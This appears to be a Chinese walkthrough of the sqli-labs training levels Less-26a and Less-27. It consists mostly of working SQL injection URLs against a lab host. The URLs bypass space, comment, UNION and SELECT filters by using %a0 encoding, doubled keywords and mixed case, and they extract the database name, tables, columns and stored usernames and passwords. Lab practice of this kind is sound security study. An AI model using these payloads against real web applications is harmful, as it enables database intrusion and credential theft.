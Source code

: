 **GET - Blind Based - All your SPACES and COMMENTS belong to us(过滤了空格和注释的盲注)**



暴位置

**注：Id的值为不正确的**

```
http://daishen.ltd:1112/Less-26a/?id=0') union select 1,2,3 anandd ('1')=('1

http://daishen.ltd:1112/Less-26a/?id=0') %a0union%a0select%a01,2,3%a0anandd%a0('1')=('1
```

暴库

```
http://daishen.ltd:1112/Less-26a/?id=0') %a0union%a0select%a01,database(),3%a0anandd%a0('1')=('1
```

暴表

```
http://daishen.ltd:1112/Less-26a/?id=0') %a0union%a0select%a01,group_concat(table_name),3%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema%a0=database()%a0anandd%a0('1')=('1
```

暴字段

```
http://daishen.ltd:1112/Less-26a/?id=0') %a0union%a0select%a01,group_concat(column_name),3%a0from%a0infoorrmation_schema.columns%a0where%a0table_name%a0='users'%a0anandd%a0('1')=('1
```

暴值

```
http://daishen.ltd:1112/Less-26a/?id=0') %a0union%a0select%a01,group_concat(username,passwoorrd),3%a0from%a0users%a0where%a0('1')=('1
```

# **Less 27**

**GET - Error Based- All your UNION & SELECT belong to us （过滤了union和select的**



union 和 select 没有忽略大小写 导致写了很多冗杂的规则，但还是可以轻易绕过。

```bash
# 大小写混写
unioN
unIon
seLect
...

# 嵌套双写
uunionnion
sselectelect
ununionion
...
```
